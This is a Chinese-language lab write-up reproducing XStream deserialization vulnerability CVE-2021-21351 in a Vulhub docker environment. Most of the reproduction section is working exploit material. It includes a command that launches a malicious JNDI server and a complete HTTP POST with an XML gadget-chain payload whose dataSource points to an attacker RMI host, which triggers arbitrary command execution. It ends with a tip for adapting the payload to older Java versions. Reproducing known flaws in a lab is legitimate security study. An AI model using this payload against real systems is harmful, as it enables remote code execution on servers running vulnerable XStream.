

# XStream 反序列化命令执行漏洞 CVE-2021-21351

## 漏洞描述

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用`javax.naming.ldap.Rdn$RdnEntry`及`javax.sql.rowset.BaseRowSet`构造JNDI注入，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## 环境搭建

Vulhub执行如下命令启动一个Springboot + XStream 1.4.15的环境：

```
docker-compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：



## 漏洞复现

由于目标环境Java版本高于8u191，故我们需要借助[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)中给出的方法，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit/)启动恶意JNDI服务器：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/awesome_poc" -A 192.168.174.128
```


根据Java版本，使用上图中基于SpringBoot利用链的RMI地址作为`<dataSource>`的值，构造POC如下：

```
POST / HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3184

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://192.168.174.128:1099/tznmqn</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

其中，evil-ip是恶意RMI服务器的地址。然后，进入目标容器内，可见`touch /tmp/awesome_poc`已成功执行：


在实战中，如果目标Java版本较低，POC需要做修改，将其中的`<__overrideDefaultParser>false</__overrideDefaultParser>`改成`<__useServicesMechanism>false</__useServicesMechanism>`即可。

